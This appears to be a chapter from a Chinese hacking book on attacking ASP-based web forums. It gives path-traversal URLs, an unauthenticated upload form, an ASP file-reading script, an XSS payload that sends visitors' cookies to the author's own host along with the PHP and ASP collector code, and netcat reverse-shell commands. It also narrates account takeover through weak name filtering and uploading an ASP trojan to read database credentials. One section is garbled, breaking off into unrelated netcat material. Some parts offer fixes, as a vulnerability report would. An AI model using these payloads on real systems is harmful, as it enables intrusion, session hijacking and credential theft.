其实入侵的方法很多，有一大部分都是通过网管的错误配置而引起的，往往这种小错误不能引起人们的注意，但坏事常常就坏在它们身上。举个例子吧，我朋友租了一台模拟主机，需要远程维护的那种，他找到我让我帮他做安全检测。我看了看，主机维护的很不错，各种默认选项都经过修改，几乎得不到任何有用小信息。就在我要放弃的时候，想起网管们都经常使用一种env.cgi的脚本程序来测试模拟主机的变量路径，而往往在放上去以后就忘了删除，于是我试着访问这个程序，果然还在，这里面显示了包括主机操作系统等重要的信息。我看到主机的操作系统为Solaris 8，于是找了个最新的Solaris溢出漏洞就解决掉了。由此可见入侵有时候还是需要一点经验加灵感的。

## 第2章 ASP脚本攻击与防范

### 2.1 有关翔浩论坛等多个基于ASP的论坛存在的严重安全问题

翔浩论坛即Xhsoft BBS 3000（维护者：翔浩网络技术，http://www.xhsoft.net/）、ASP银河空间论坛（维护者：ASP 银河空间，http://www.asp50.com/）、网虫中国资讯论坛即WormCN Forums 3000 II（维护者：网虫中国资讯网，http://www.wormcn.net/）是国内较流行的三个基于ASP的BBS，前身是Snitz Forums 2000 Version 3.1 SR4（http://forum.snitz.com），最先是网虫中国资讯网汉化并增加了一些功能重新发布为WormCN Forums 3000 II，后又被ASP银河空间和翔浩网络技术改进并发布。其界面类似于LB5000，功能较为强大。网上还有很多其他类似版本，如桦飞飞家园论坛（http://www.13148.com）等，但应用并不广泛，基本都是在WormCN Forums 3000 II 的基础上修改的，也都存在类似问题。

上述几个论坛的主程序基本是相同的，也都存在同样的问题。在写这份漏洞报告之前我去了上面三个主页，下载了最新版本的论坛，并在维护者自己的主页上使用的论坛中作了测试，问题都是存在的。鉴于这几个程序在国内使用之广，我不可能一一通知他们的管理员。希望看这份报告的人本着一个正义网民的心态，帮助我们通知这些管理员，并将本文发送给他们；而不要使用本同提到的技术去入侵，这是触犯法律的行为。

应一个朋友之托帮助检查一台Windows 2000服务器的安全性。服务器上运行了翔浩论坛，审查论坛代码时偶然发现在几个问题。

至少有以下文件存在明显安全问题：

- 1. `bbs/readme.asp`

这个文件是被设计用来显示“说明文件.txt”的，它的使命只有一个：

```text
bbs/readme.asp?readme=说明文件
```

但因为程序中并未作任何限制，仅用以下语句限制了扩展名必须为“txt”：

```text
rfile = request.querystring("readme") & ".txt"
```

而并未过滤“..”，也无其他安全限制。所以可以用来显示本机甚至内网上（使用UNC路径）的任何文本文件：

```text
bbs/readme.asp?readme=../../../../foo.txt
bbs/readme.asp?readme=\\secret\\share\\foo.txt
```

- 2. `bbs/tools/whereami.asp`

这个工具可能是为了方便管理而写的，只有一行：

```text
Request.ServerVariables("PATH_TRANSLATED")
```

将返回绝对路径： “此文件的绝对路径是： D:\webroot\cgi-bin\bbs\tools\whereami.asp”

### 3. bbs/tools/http_asp.asp

该脚本中使用了perl：

```perl
sub viewSource(\$){
    use LWP::Simple;
    my ($URL) = @_;
    $Source = get($URL);
    if($Source ne "")
    {
        return true;
    }
    else
    {
        return false;
    }
}
```

程序使用了LWP::Simple模块，是用来访问URL的，所以可能被用来访问IP受限制的本机或内网URL。但此程序在测试时并不能正常运行，而且主机上必须安装perl，故对安全的影响不能完全肯定。关于LWP::Simple的用法，可以这样测试：

```bash
perl -MLWP::Simple -e 'getprint "http://www.whitecell.org";'
```

### 4. bbs/admin_upload.asp 和 bbs/admin_uploadengine.asp

本来是设计用于方便管理员上传文件的，但并无身份认证措施。仅在与bbs/admin_upload.asp 交互时，限制仅管理员才有选择文件目录的界面，但bbs/admin_uploadengine.asp 中并无任何限制，所以这种限制是可以被绕过的，加上没有过滤“..”，所以可以上ASCII文件到任何有发布权限的目录。因为没有使用组件，故只能是ASCII文件。测试：把下面的代码中的“http://foo.asp.host/bbs/” 改为论坛实际所在的路径并存为htm文件即可。

```html
<form enctype="multipart/form-data"
 action="http://foo.asp.host/bbs/admin_uploadengine.asp"
 method=post name="fileup1">
<input name="folder" type="hidden" value="admin">
<input name="reply_id" type="hidden" value="">
<input name="topic_id" type="hidden" value="">
<input name="member_id" type="hidden" value="">
<input name="file1" type="file" size=20 value="">
<input name="uploaddir" type="text" value="../../../../" >
<input name="upload" type=submit value="开始上传" >
</form>
```

### 5. bbs/pop_upload.asp

用于论坛用户上传文件，对扩展名做了限制。但无身份认证措施。用户不必登录也可向论坛上传送文件，但一般对安全影响并不大。

admin_poll.asp 等管理程序也存在与上面类似的无身份认证问题。

危害：

我用bbs/admin_uploadengine.asp向朋友的机子上传了一个利用Wscript.Shell.Run运行系统命令的ASP脚本，这样我就可以以IWAM_MachineName的身份运行系统命令，系统对IWAM_MachineName默认是全局可读的，可以下载SAM；可以向根目录写文件；可以改主页，可以得到论坛数据库所在的路径……

虽然Wscript.Shell.Run可能由于主机的一些安全设置不一定可以运行成功，但至少可以用FileSystemObject来查找、读取、拷贝、删除文件。这是一个读取文本文件的例子，可以用来显示ASP源代码：

```asp
<%'usage : cat.asp?cat=C:\webroot\bbs\conn.asp%>
<%
filename = Request("cat")
set fs = CreateObject("Scripting.FileSystemObject")
'## 建立文件对象
Set catfile = fs.OpenTextFile(filename, 1, False)
do while not catfile.AtEndOfStream
    file=file+catfile.readline+"<br>"+chr(13)+chr(10)
    '## 每行结尾加入<br>换行
loop
%>
<%=file%>
<%
catfile.Close
set fs = nothing
%>
```

## 解决方案：

- 1. 对于bbs/tools/whereami.asp、bbs/readme.asp、bbs/tools/http_asp.asp这些并没什么用的程序可以删除或改为其他名字。

- 2. 对于bbs/admin_upload.asp 和 bbs/admin_uploadengine.asp等等管理程序如果不需要使用可以删除，如果需要可自行修改。在程序前加一行：

```asp
<% If Session(strCookieURL & "Approval") = "15916941253" Then %>
```

其中“15916941253”最好改为其它数字，例如改为：

```asp
<% If Session(strCookieURL & "Approval") = "71847891818" Then %>
```

并将其余的管理程序中的“15916941253”也改为相同的数字。注意：admin_login.asp中的

```asp
<% Session(strCookieURL & "Approval") = "15916941253" %>
```

也要改，否则无法使用任何管理程序。

- 3. 作如下权限设置：删除IWAM_MachineName 对所有目录的写权限，对WEB目录则完全不给任何权限，仅给予对数据库文件的读写权。给予IUSR_MachineName对WEB目录读权限及对数据库文件的读写权。如需使用上传功能，则给予IUSR_MachineName存放上传文件的文件夹的读写权。这个权限设置对其他论坛或聊天室之类也适用。

- 4. 如有可能，与软件维护者联系。

- 5. 避免数据库文件被下载的方法：这些论坛都提供了MySql和MSSql的连接方式，如有可能尽量使用Sql的连接方式。如果一定要用，可以这样：打开internet信息服务管理器，选中数据库文件；单击右键，点“属性”，在“文件”页取消“读取”选项。这样即使入侵者得到了数据库的路径，下载时也只能得到一个“403.2”错误。当然还可以在“文件安全性”页通过限制允许访问的IP等来保护数据库。这一点与本文提到的几个安全问题并无联系，但对于论坛也是一个重要的安全问题。其他论坛或聊天室也适用此方法。

附：

我下载了原始版本的Snitz Forums 2000 Version 3.1 SR4 和 Snitz Forums 的其他版本，却并没发现存在上面所说的安全问题，Snitz Forums 自己的论坛（http://forum.snitz.com/forum/）也没有这些问题。但我测试了国外很多使用Snitz Forums的论坛——包括意大利、德国等——却是存在这些问题的，显然这些程序并非汉化作者有意加上去的，可能是某个第三方工具包。

其实这些安全问题并不牵涉到什么高深的技术，也不难发现；而我在网上简单的搜索了一下，国内运行这些程序的机器不下千台，包括一些“黑客论坛”。在测试的三十多个中无一对此问题做出了解决。当你拿到一个“免费”程序要放到服务器上运行的时候，真的那么放心么？

## 关于whitecell.org

一个非营利性安全组织，致力于网络安全技术的研究，其成员来自全国各大安全公司。主页：http://www.whitecell.org/，论坛：http://www.whitecell.org/forum/。

### 2.2 对动网先锋ASP论坛的安全性分析

前段时间有朋友想获取一个动网先锋论坛的管理员密码，所以我就对动网先锋论坛进行了一次安全性的测试。

### 1. 安装文件未删除的问题

这个问题可以说是老生常谈了，早些时候就有个什么***黑客大联盟的论坛被这么黑掉。动网论坛的安装文件名为install.asp，这个想来凡是用过的人都知道，如果你在安装论坛完成后不删除该文件，那么，攻击者就能通过该文件重置你的论坛配置，达到攻击的目的。这个问题是由于用户使用不当所致，再次提出是为了引起大家注意。

### 2. 数据库问题

我们都知道asp论坛大多数都是使用access数据库，主要因为个人用户弄不到sqlserver的服务器，这就使攻击者在得到数据库路径和文件名的情况下对论坛数据库进行下载，下载后只需要用access打开即可看到论坛的所有信息，包括所有用户密码。由于这个原因，建议大家一定要将论坛的access文件改成一个没有规律的名字，如3cdal9eklz9c0ad.mdb，像不像是md5加密过？呵呵，不开玩笑，这样才可以避免被人下载。

### 3. 上传头像功能的安全隐患

这个安全隐患是由于微软IE的漏洞引起的，详细的原因可以参考crazybird的那篇漏洞说明。对于攻击，当然是跨站脚本攻击，如果你不知道什么是跨站脚本攻击，那么看看第3期黑防刊登的《跨站脚本攻击详解》这篇文章！这里举个例子，首先新建一个文本文件，如shocker.txt，内容如下：

```html
<script>window.open('http://shocker.soage.com/css.php?'+document.cookie);</script>
```

shocker.soage.com是我自己的网址，而css.php是收集cookie的程序。我的程序代码如下：

```php
<?
#### 跨站脚本攻击
# <script>window.open('http://shocker.soage.com/css.php?'+document.cookie);</script>
$info = getenv("QUERY_STRING");
if ($info) {
    $info=urldecode($info);   // 这里将收集到的cookie进行以下url解码
    $fp = fopen("chen.txt", "a");   // 这里chen.txt 你可以随便命名
    fputs($fp, "$info\n");
    fclose($fp);
}
header("Location: http://www.gxboy.com/pt");   // 呵呵，转到mkjl.哪里，许多照片呀
?>
```

你也可以用CGI的收集cookie程序，很好写，这里就不多说了。如果你不知道，可以来www.china4alert.org查看superdao以前发表过文章，里面都有提到。

将shocker.txt保存后文件改名为shocker.gif，通过上传头像的功能传到网站上，接下来就是让别人看到这个伪装成图片的文本了。

### 4. 贴图标签的问题

经我测试，除了LB5k和phpbb的贴图标签没有问题以外，其他的论坛贴图标签都有问题，主要是正则表达式写得不好，LB5k的[img]标签转换写得就不错，如下：

```perl
$signature =~ s/\[img\]\s*(http|https|ftp):\/\/(\S+?)\s*\[\/img\]//isg;
```

这样才能防止攻击者提交诸如javascript:alert(document.cookie)之类的东西。而动网的贴图标签就存在着问题，而且通过贴图标签的跨站脚本攻击比上传图片的跨站脚本攻击要容易得多。可以在你的签名或帖子里加入：

例如：某台机器被装了个ROOTSHELL，我们想连接它，只需要输入：

```bash
[root@www root]# nc -v localhost 512
localhost.localdomain [127.0.0.1] 512 (exec) : Connection refused
```

如果想绑定某个端口，那么，你建立的都是反向通道。例如：

```bash
[root@www root]#nc -l -n -v -p 80
```

这样，将会建立一个从目标机到攻击者自己的机器的反向通道，因为是从目标机发起连接，通常防火墙不会阻挡。

NC的主要功能就是这些，是不是觉得很简单呢？很多人不会用Unix下面的工具，都因为被Unix这名字给吓住了，一听是Unix的，就会想，一定很难。NC还有一些额外的功能。我们看到有一个名为SCRIPTS的目录：

```bash
[root@www scripts]# ls
alta  dist.sh  iscan  probeweb  webrelay
bshircncp  readme  webproxy  websearch
```

它里面带的脚本相当于NC的插件，可以提供给大家一些特殊的功能。

### 2.3 过滤字符不全的安全隐患

介绍：IBB论坛是一款以MSSQL为数据库，采用执行程序IDDS.DLL运作的论坛，应用非常广泛，用百度搜索/ibbs.dll(论坛首页名)都能搜出一大群来，最新版本是ibb1.5。

漏洞：产生漏洞的原因是因为注册用户时候字符过滤不严密，比如：管理员的名字是ABC，那么我们可以注册一个：abc （注意abc后的是字符，不是空格，这个字符制造方法是：文本文档－Tab键+Caps Lock键）注册成功，登陆上去后，我们就有了论坛管理员的权限了。

最近在玩“奇迹”游戏，就不自觉地想看看该网站服务器的安全性，不过自己辛苦的结果最后恐怕是一场空。找到网站登陆上去，页面做得很精致，扫扫看：

- 1. 25 SMTP
- 2. 110 POP3
- 3. 1433 mssql （兴奋中\~\~\~好东西，拿权限要靠他了）
- 4. 3389 ts

------end------

没了！本来就没指望扫出什么东西的，看他的网页代码，什么都没发现，登陆论坛看看，咦！没见过的iBBS，不过是测试版本的，Down个回来看看。

半个小时过去了……除了知道这个论坛是使用mssql数据库，得到它的绝对路径（论坛路径文件ibbs.ini不可改名，可通过Web下载）外，还是什么也没发现。

再回到他论坛上，用默认的管理员登陆……密码错误！注册一个新用户看看，填好后，点击“注册”。这时弹出一个对话框：名字中不能包含特殊字符：+=|`#&<>%*'^\\\";,.空格唉呀，刚才多按了个空格键，等等！哈哈，看见了吗？看见了吗？什么？没看见？看，这个：名字中不能包含特殊字符：`+=|`#&<>%*'^/\\"',. 空格`，这段话暴露出该论坛注册所过滤的字符，可惜他们却忘记了过滤最重要的字符，该字符的制造方法是：Tab键+Caps Lock键。现在假设论坛管理员的名字是admin，那我们注册一个admin，然后登录进去，现在这个论坛是我们的了。到此，我们终于有一个接口了。现在对于一个invader来说，面前已经是一片平坦了。

单击“使用设置”（管理员的控制面板在论坛的最下方），开启文件上传功能，然后在上传文件类型中加入：ASP。

然后回论坛首页发一个主题或是写一个回帖，将手上的ASP木马传上去（这里注意，上传的文件将被重命名，所以我们要上传一个免FSO的木马），点击你所发的帖子附件。在木马输入命令：

```
x:\bbs\config\ini\conn.ini copy x:\bbs\web\
```

复制MSSQL数据库配置文件到论坛目录，然后用IE下载下来。打开conn.ini，看到了下面这段语句了吗？

```
SERVER=127.0.0.1;DATABASE=ibb;UID=sa;PWD=123456
```

DATABASE对应的是数据库中表的名字，UID是MSSQL里默认管理员的账户（也是不可删除的），PWD就是管理员的密码啦。然后，用MSSQL连接器连接上去就是system权限了，接下来添加admin用户，删除上传文件。

由此我们可以看到，安全隐患无处不在；我们一定不能忽视任何一处问题，对于任何一个有可能发生问题的地方都要经过严格反复的测试。

## 2.4 对留言板的简单测试

某天在网上乱逛，逛着逛着就到了xhacker的网页，制作虽然简单，但是内容还不错，值得一看（推荐）。对于公布自己心得的人，我一向很尊敬，于是就点击留言板给xhacker留言（留言板为免费留言板，和xhacker的技术无关）。看到留言板里可供选择的头像很少，于是就想到做一个小测试，看是否可以自己DIY一下！

查看网页的源文件，先来试着更改一下来源所在地，查找`<option value>`，我们看到了很多可选的城市。复制一行的代码，把城市改成我们希望在网页里出现的地方（改成天堂怎么样？）如图2-4-1所示。

然后就要DIY自己的头像了。查找`<option select>`，是不是看到了一个头像列表？同样，我们再复制一行代码，在`value=""`里填入我们想显示的头像的URL（我的头像是在94cool.org里找的，看看域名，“就是酷！”），在说明里改成头像41。如图2-4-2所示。









图2-4-3

图2-4-4

全部都DIY完了，我们怎么发帖才能显示出来呢？这就要把文件保存到本机里。之前我们先查找`<form>`，在`action=""`里填入提交的绝对路径(编写程序时都是相对路径)；然后点文件－另存为，保存为`.htm`文件就可以(我这里保存为a.htm)。如图2-4-3所示。

双击打开刚才保存在本机里的网页文件，在里面选择我们刚才修改的部分，再加上一些问候的话，提交啦！看看效果吧！如图2-4-4所示。

后话：也可以在用户名处用`<head>`，显示的时候会认为是HTML的源码部分，被过滤掉。显示的用户名就是空啦！

## 2.5 我是如何获取小榕论坛的用户密码的

小榕的流光5推迟发布，网站也一直打不开。前几天去已经能访问了，我的“监狱生涯”好像也结束了，因为我在小榕论坛被关了3次……可以发帖了，看见论坛有人在测试脚本漏洞，我也想测试测试，意想不到的是竟成功了，所以写了这个文章给大家，让大家在处理脚本的时候多留心着点。

### 1. 什么是跨站脚本(CSS/XSS)?

我们所说跨站脚本，是指在远程Web页面的html代码中插入的具有恶意目的的数据，用户认为该页面是可信赖的。但是，当浏览器下载该页面，嵌入其中的脚本将被解释执行，今天我就把带有能获取Cookie信息的脚本嵌入了所发帖子里的页面里，并且成功地绕过了论坛对特殊字符的限制，具体怎么做，大家等下可以看下面的。而有时候跨站脚本被称为“XSS”，这是因为“CSS”一般被称为分层样式表，搞网站设计的都知道CSS，因为它的功能很强大。或许这很容易让人困惑，但是如果你听某人提到CSS或者XSS安全漏洞，通常指的是跨站脚本。

### 2. XSS和脚本注册的区别

并非任何可利用脚本插入实现攻击的漏洞都被称为XSS，因为还有另一种攻击方式：“Script Injection”，即脚本注入或者是讲脚本注册，它们之间是有区别的：

它们的区别在以下两点：

- 1. （Script Injection）脚本插入攻击会把我们插入的脚本保存在被修改的远程Web页面里，如：sql injection，XPath injection。

这个很常见，好像前几个月很多安全网站被黑就是因为脚本里存在注入漏洞，而被一些人利用了。

- 2. 跨站脚本是临时的，执行后就消失了。这个就不同于我们现在讨论的 XSS/CSS 了，今天讲的是在页面中插入脚本，这样谁来访问谁的浏览器就执行，如果不被删掉或者是修改编辑的话，就一直存在的。

那么，什么类型的脚本可以被插入远程页面呢？
主流脚本包括以下几种：

- HTML
- JavaScript（这个是我今天测试的）
- VBScript
- ActiveX
- Flash

好了，进入正题，具体如何检查这个漏洞，大家可以看绿盟 Sn0wing 翻译的文章《跨站脚本说明》。

### 3. 测试过程

首先是写获取 Cookie 的文件，我的空间是 ASP 的，所以就写 ASP 文件，下面的代码不是我写的了……
以下是获取 Cookie 的 ASP 源代码：

```asp
<%
testfile=Server.MapPath("longker.txt")
msg=Request("fmsg")
set fs=server.CreateObject("scripting.filesystemobject")
set thisfile=fs.OpenTextFile(testfile,8,True,0)
thisfile.WriteLine("|"&msg&"|")
thisfile.close
set fs = nothing
%>
```

怎么样，很简单是不是，上面的文件是把得到的信息存为 longker.txt，如果漏洞存在，就会在空间里生成 longker.txt，里边是收集的 Cookie 信息。

好了，一切就绪了，开始测试吧。我首先输入这样的内容：

```text
[img]javascript:document.write('不知道有没有');[/img]
```

被过滤了，见图 2-5-1；
成了星号和一个鬼脸了，这个自然会过滤的了，我也早想到了，为了让大家能看得更清楚，所以在这里也测试一番。

这样不行，我们的获取 Cookie 的脚本还没有插进去呢。换种方法来吧，看论坛对字符过滤得比较严格，把字母换成 ASCII 码试试，j 的 ASCII 码是 106，如图 2-5-2 所示。
看 javascript 出来了吗？如果我们发个帖子，并且禁止表情字符的话，那大家在浏览的时候就会出现一个警告框，上面写着“再试”，图 2-5-3 为我测试的结果。




